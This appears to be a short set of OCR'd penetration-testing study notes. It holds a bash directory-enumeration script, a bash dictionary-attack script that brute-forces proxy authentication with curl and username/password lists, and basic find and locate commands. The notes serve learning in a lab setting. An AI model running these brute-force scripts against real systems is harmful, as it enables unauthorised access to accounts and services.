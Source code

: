 ## Directory Listing
```bash
#!/bin/bash
while read dir_name; do
echo "Trying directory: $dir_name"
curl http://$1$dir_name
done <$2
```
output
```sh
./testscript.sh 192.11.183.3 directory.txt
```
## proxy authentication dictionary attk
```bash
#!/bin/bash
  
while read user
do
  while read passwd
  do
    content=$(curl -I -x "$user":"$passwd"@$1 $2)
    echo "$user - $passwd"
    if echo "$content" | grep -qi "407 proxy authentication required"; then
      continue
    else
      echo "Found usernam-pwd : $user - $passwd"
      exit 0
    fi
  done <$4
done <$3
```
```sh
$ ./crack.py 192.144.18.3:3128 127.0.0.1  usernames.lst password.lst
```
# System Commands
## `find`
```bash
find / -type f -name '*.txt'
find / -type f -perm 775 -user student
```
## `locate`
```sh
# -i option to perform a case-insensitive search
locate wordlist
```
## `netstat`
Refs:
* <https://www.binarytides.com/linux-netstat-command-examples/>
